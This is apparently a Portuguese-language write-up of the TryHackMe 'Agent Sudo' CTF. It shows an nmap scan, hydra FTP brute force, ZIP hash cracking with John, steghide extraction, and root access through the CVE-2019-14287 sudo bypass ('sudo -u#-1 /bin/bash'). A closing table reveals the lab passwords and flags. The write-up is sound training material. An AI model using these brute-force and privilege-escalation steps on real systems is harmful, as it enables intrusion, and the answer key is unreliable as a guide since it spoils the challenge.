




# Sudo-Agent-CTF 🛸
Write-up do Sudo Agent CTF (TryHackMe), com enumeração, exploração web, esteganografia, SSH e privilege escalation via CVE-2019-14287.

## 📌 Informações da Máquina

| Item        | Informação                                      |
| ----------- | ----------------------------------------------- |
| Plataforma  | TryHackMe                                       |
| Sistema     | Linux                                           |
| Dificuldade | Easy                                            |
| Objetivo    | Web exploitation, FTP,SSH, esteganografia e privilege escalation |
| CVE         | CVE-2019-14287                                  |
| Status      | Completed ✅                                    |
## 🔗 Attack Path

```text
Reconhecimento
      ↓
Enumeração Web
      ↓
User-Agent
      ↓
FTP
      ↓
Análise de arquivos
      ↓
Esteganografia
      ↓
Credenciais
      ↓
SSH
      ↓
Privilege Escalation
      ↓
CVE-2019-14287
      ↓
Root 👑

## 🛠️ Ferramentas utilizadas

```text
Nmap
Hydra
User-Agent Switcher
FTP
Binwalk
John the Ripper
7-Zip
Steghide
SSH
Linux Commands
Browser
```

# Reconhecimento

## Scan de portas:
O primeiro passo da etapa de reconhecimento foi identificar as portas abertas.
Realizei o scan de portas com nmap:
```bash
nmap -sV -sC sudoagent
```
## Portas abertas:
```bash
21/tcp open  ftp     
22/tcp open  ssh
80/tcp open  http
```
# Enumeração Web

Realizando a análise da aplicação web, me deparei com a seguinte mensagem:

A aplicação web apresentou uma mensagem do Agent R indicando que o acesso dependia de um User-Agent específico.

# User-Agent
Realizei a alteração do User-Agent ,utilizando o User-Agent switcher, para REDACTED, e foi possível visualizar a mensagem:

A mensagem revelou informações sobre um dos agentes e indicou que sua senha era fraca.

# FTP
Com o usuário encontrado e sabendo que sua senha era fraca, realizei brute force com hydra:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://sudoagent/
```
O hydra conseguiu retornar a senha do agentC com sucesso!
```bash
[21][ftp] host: sudoagent   login: c$$$$   password: REDACTED
```
As credenciais obtidas permitiram acesso ao serviço FTP.
## Explorando o acesso FTP
No FTP foram encontrados arquivos de texto e imagens.
```bash
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
Realizei o download dos arquivos, para analisá-los.
## Analisando arquivos encontrados
Iniciei a análise visualizando o conteúdo do arquivo de texto To_agentJ.txt:
```bash
cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
O arquivo se trata de uma mensagem enviada pelo agent C ao agent J. Descobrimos que existe uma credencial oculta em um dos arquivos de imagem.
## Buscando por credenciais ocultas
Com a ferramenta Binwalk, identifiquei que o arquivo cutie.png continha um arquivo ZIP criptografado, cujo conteúdo era o arquivo To_agentR.txt.
```bash
binwalk cutie.png

34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Para realizar a leitura do arquivo eu preciso extraí-lo e descobrir sua senha.
Realizei a extração do arquivo:
```bash
dd if=cutie.png of=arquivo.zip bs=1 skip=34562
```
O Binwalk indicou que o arquivo ZIP começava no offset 34562. Utilizei esse valor para extrair a partir desse ponto e gerar o arquivo ZIP separadamente.

E a extração da hash:
```bash
zip2john *.zip > hash.txt
```
E agora vamos descobrir a senha com a ajuda do John The Ripper:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

REDACTED            (arquivo.zip/To_agentR.txt)
```
Após descompactar o arquivo utilizei a senha encontrada:
```bash
cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

Temos um código em base64 que precisamos decodificar
```bash
 echo "QXJlYTUx" | base64 -d
REDACTED
```
Após obter a senha utilizada na esteganografia, utilizei o Steghide para extrair a mensagem escondida na imagem cute-alien.jpg.
```bash
steghide extract -sf cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt"
```
A mensagem decodificada foi enviada para o arquivo message.txt
```bash
cat message.txt  
Hi j$$$$,

Glad you find this message. Your login password is REDACTED!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
c$$$$
```
A mensagem trouxe o nome do agent J e sua senha.
# SSH
Utilizei as credenciais do agent J para realizar acesso via SSH.
Após o acesso bem-sucedido, localizei o arquivo chamado user_flag.txt e um outro arquivo de imagem.
```bash
ls
Alien_autospy.jpg  user_flag.txt
```
# OSINT, e o incidente da foto
Após obter acesso via SSH, encontrei o arquivo `Alien_autospy.jpg`.

Realizei uma análise da imagem e, em seguida, utilizei técnicas de OSINT para identificar a origem e o contexto da fotografia.

Através de uma pesquisa em fontes públicas, foi possível associar a imagem ao caso.


# Escalando privilégios
Antes de tentar escalar privilégios, verifiquei as permissões sudo do usuário atual:
```bash
 sudo -l

Matching Defaults entries for j$$$$ on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User j$$$$ may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

```
A configuração apresentada pelo `sudo -l` era vulnerável à **CVE-2019-14287**.

Essa vulnerabilidade permite contornar determinadas restrições de execução do `sudo` utilizando um UID especial, como `-1`, que pode ser interpretado de forma equivalente ao usuário `root` em versões vulneráveis.
# Explorando a CVE  2019-14287
Foi possível escalar privilégios especificando o usuário como -1:
```bash
sudo -u#-1 /bin/bash
root@agent-sudo:~#
```
O comando resultou em uma shell com privilégios de root.

# Root Flag e Flag Bônus
Abusando dos privilégios obtidos, naveguei até a pasta root e acessei o arquivo root.txt onde encontrei as duas ultimas flags:
```bash
cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
REDACTED

By,
REDACTED a.k.a Agent R
```
# 🔓 Vulnerabilidades Identificadas

| Vulnerabilidade / Técnica              | O que aconteceu                                                        | Impacto                                                                 |
| -------------------------------------- | ---------------------------------------------------------------------- | ---------------------------------------------------------------------- |
| User-Agent Manipulation                | A aplicação utilizava o User-Agent para controlar o acesso à página.  | Permitiu acessar conteúdo não disponível na navegação convencional.   |
| Credenciais fracas                     | Um usuário possuía uma senha fraca e previsível.                       | Permitiu descoberta da senha por ataque de força bruta contra o FTP.  |
| Arquivo ZIP oculto em imagem            | Uma imagem continha um arquivo ZIP criptografado embutido.             | Permitiu obter informações adicionais e avançar na cadeia de ataque.  |
| Esteganografia                          | Uma mensagem contendo credenciais estava escondida em uma imagem.      | Permitiu recuperar a senha utilizada para acesso SSH.                 |
| CVE-2019-14287 (Sudo)                  | O sudo apresentava uma vulnerabilidade no tratamento do UID `-1`.     | Permitiu contornar a restrição de execução e obter privilégios root. |

## 🚩 Flags
<details>
<summary>🚩 Clique para revelar as flags</summary>

| # | Pergunta | Resposta |
|---|----------|----------|
| 1 | How many open ports? | `3` |
| 2 | How you redirect yourself to a secret page? | `User-Agent` |
| 3 | What is the agent name? | `Chris` |
| 4 | FTP password | `crystal` |
| 5 | Zip file password | `alien` |
| 6 | steg password | `Area51` |
| 7 | Who is the other agent (in full name)? | `james` |
| 8 | SSH password | `hackerrules!` |
| 9 | What is the user flag? | `b03d975e8c92a7c04146cfa7a5a313c7` |
| 10 | What is the incident of the photo called? | `Roswell alien autopsy` |
| 11 | CVE number for the escalation | `CVE-2019-14287` |
| 12 | What is the root flag? | `b53a02f55b57d4439e3341834d70c062` |
| ⭐ | Bonus — Who is Agent R? | `DesKel` |

</details>


## 🏁 Conclusão

O **Sudo Agent CTF** apresentou uma cadeia de exploração que começou com uma etapa simples de reconhecimento e evoluiu progressivamente até a obtenção de privilégios de root.

A exploração envolveu **enumeração de serviços, manipulação de User-Agent, descoberta de credenciais fracas, análise de arquivos e esteganografia, acesso via SSH e escalada de privilégios**.

O ponto principal da máquina foi perceber que cada informação obtida durante a exploração servia como ponto de partida para a próxima etapa. A partir do acesso inicial ao FTP, foi possível analisar os arquivos disponíveis, recuperar informações ocultas e obter as credenciais necessárias para acessar o sistema via SSH.

Após o acesso como usuário comum, a análise das permissões do `sudo` revelou uma configuração vulnerável associada à **CVE-2019-14287**, permitindo contornar a restrição de execução e obter uma shell com privilégios de root.

Esse CTF reforçou a importância de realizar uma **enumeração cuidadosa e encadear as informações encontradas**, além de demonstrar como credenciais fracas, informações ocultas e softwares desatualizados podem ser combinados para comprometer completamente um sistema.

**Status: Machine Pwned ✅👽**
